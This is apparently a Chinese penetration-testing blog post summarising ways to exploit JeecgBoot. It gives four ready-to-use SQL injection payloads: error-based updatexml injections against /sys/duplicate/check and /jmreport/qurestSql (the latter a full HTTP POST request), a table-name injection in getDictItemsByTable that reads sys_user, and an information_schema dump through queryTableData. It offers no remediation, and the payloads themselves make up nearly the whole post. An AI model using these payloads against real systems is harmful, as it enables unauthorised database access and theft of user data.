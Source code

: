 ```yaml
---
layout: post
title: Jeecg boot利用总结
categories: [pen-test]
Description: Jeecg boot利用总结
keywords: Pen-test JeecgBoot
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


Description: Jeecg Boot.

## SQL Injection

### /sys/duplicate/check

poc：

```
/jeecg-boot/sys/duplicate/check?dataId=&fieldName=updatexml(1,concat(0x7e,user(),0x7e),1)&fieldVal=1000&tableName=sys_log
```

<img src="/images/pen-test/JeecgBoot/image-20240626163646353.png" alt="image-20240626163646353" style="zoom:67%;" />

### /sys/ng-alain/getDictItemsByTable/

poc：

```
/jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js
```

<img src="/images/pen-test/JeecgBoot/image-20240625145046671.png" alt="image-20240625145046671" style="zoom:50%;" />


### /sys/dict/queryTableData

poc：

```
/jeecg-boot/sys/dict/queryTableData?pageSize=100&table=information_schema.tables&text=table_name&code=TABLE_SCHEMA
```

<img src="/images/pen-test/JeecgBoot/image-20240625154257417.png" alt="image-20240625154257417" style="zoom: 67%;" />

### /jmreport/qurestSql

poc：

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/json;charset=UTF-8

{"apiSelectId":"1290104038414721025","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select md5(123456))),1)) or '%%' like '"}
```


